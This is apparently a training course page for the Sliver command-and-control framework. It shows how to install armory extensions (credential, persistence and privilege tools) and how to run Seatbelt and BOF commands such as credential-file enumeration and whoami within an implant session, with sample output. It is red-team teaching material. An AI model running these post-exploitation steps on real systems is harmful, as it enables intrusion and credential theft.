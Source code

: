 # This course is intended for the 1.6 version of Sliver, which is not yet published

The Sliver armory is used to install and maintain third party extensions and aliases within sliver. The full list of available extensions can be found at https/github.com/sliverarmory/armory, keep in mind this is community maintained so not all modules are necessarily up to date.

You can download all configured extensions/aliases using the armory command.

```bash
[server] sliver > armory install all
? Install 18 aliases and 84 extensions? Yes
[*] Installing alias 'SharpSecDump' (v0.0.1) ... done!
[*] Installing alias 'SharpChrome' (v0.0.1) ... done!
[*] Installing alias 'SharpDPAPI' (v0.0.1) ... done!
[*] Installing alias 'SharpMapExec' (v0.0.1) ... done!
[*] Installing alias 'KrbRelayUp' (v0.0.1) ... done!
[*] Installing alias 'SharpRDP' (v0.0.1) ... done!
[*] Installing alias 'SharpUp' (v0.0.1) ... done!
[*] Installing alias 'SharpView' (v0.0.1) ... done!
[*] Installing alias 'SharPersist' (v0.0.1) ... done!
[*] Installing alias 'Sharp WMI' (v0.0.2) ... done!
...
[*] All packages installed
```

These commands can then be used in the context of a session or beacon similarly to other commands, with a couple caveats.

Let’s go ahead and run our first assembly.

```bash
[server] sliver (UNABLE_PRIDE) > seatbelt " WindowsCredentialFiles"

[*] seatbelt output:

 %&&@@@&&
 &&&&&&&%%%, #&&@@@@@@%%%%%%###############%
 &%& %&%% &////(((&%%%%%#%################//((((###%%%%%%%%%%%%%%%
%%%%%%%%%%%######%%%#%%####% &%%**# @////(((&%%%%%%######################(((((((((((((((((((
#%#%%%%%%%#######%#%%####### %&%,,,,,,,,,,,,,,,, @////(((&%%%%%#%#####################(((((((((((((((((((
#%#%%%%%%#####%%#%#%%####### %%%,,,,,, ,,. ,, @////(((&%%%%%%%######################(#(((#(#((((((((((
#####%%%#################### &%%...... ... .. @////(((&%%%%%%%###############%######((#(#(####((((((((
#######%##########%######### %%%...... ... .. @////(((&%%%%%#########################(#(#######((#####
###%##%%#################### &%%............... @////(((&%%%%%%%%##############%#######(#########((#####
#####%###################### %%%.. @////(((&%%%%%%%################
 &%& %%%%% Seatbelt %////(((&%%%%%%%%#############*
 &%%&&&%%%%% v1.1.1 ,(((&%%%%%%%%%%%%%%%%%,
 #%%%%##,

====== WindowsCredentialFiles ======

 Folder : C:\Users\defaultuser0\AppData\Local\Microsoft\Credentials\

 ...
```

As you can see Sliver ran the Seatbelt assembly and provided us with the output of our command.

## Bof’s

Beacon object files are loaded using trustedsec’s coffloader. When you run a bof command the loader will first be loaded into memory and is used to run whichever bof you choose. From an operator’s perspective bof’s are similar to basic sliver commands.

```bash
[server] sliver (UNABLE_PRIDE) > sa-whoami

[*] Successfully executed sa-whoami (coff-loader)
[*] Got output:

UserName SID
====================== ====================================
test.local\tester

GROUP INFORMATION Type SID Attributes
================================================= ===================== ============================================= ==================================================
test.local\None Group S-1-5-21-3109228153-3872411817-1195593578-513 Mandatory group, Enabled by default, Enabled group,
Everyone Well-known group S-1-1-0 Mandatory group, Enabled by default, Enabled group,
NT AUTHORITY\Local account and member of Administrators groupWell-known group S-1-5-114
BUILTIN\Administrators Alias S-1-5-32-544
BUILTIN\Performance Log Users Alias S-1-5-32-559 Mandatory group, Enabled by default, Enabled group,
BUILTIN\Users Alias S-1-5-32-545 Mandatory group, Enabled by default, Enabled group,
NT AUTHORITY\INTERACTIVE Well-known group S-1-5-4 Mandatory group, Enabled by default, Enabled group,
CONSOLE LOGON Well-known group S-1-2-1 Mandatory group, Enabled by default, Enabled group,
NT AUTHORITY\Authenticated Users Well-known group S-1-5-11 Mandatory group, Enabled by default, Enabled group,
NT AUTHORITY\This Organization Well-known group S-1-5-15 Mandatory group, Enabled by default, Enabled group,
NT AUTHORITY\Local account Well-known group S-1-5-113 Mandatory group, Enabled by default, Enabled group,
LOCAL Well-known group S-1-2-0 Mandatory group, Enabled by default, Enabled group,
NT AUTHORITY\NTLM Authentication Well-known group S-1-5-64-10 Mandatory group, Enabled by default, Enabled group,
Mandatory Label\Medium Mandatory Level Label S-1-16-8192 Mandatory group, Enabled by default, Enabled group,

Privilege Name Description State
============================= ================================================= ===========================
SeShutdownPrivilege Shut down the system Disabled
SeChangeNotifyPrivilege Bypass traverse checking Enabled
SeUndockPrivilege Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
SeTimeZonePrivilege Change the time zone Disabled
```

Since these payloads are run in-process, they have similar advantages and drawbacks as in-process assemblies, meaning no new processes are spawned on execution, but a crash risks losing the implant.
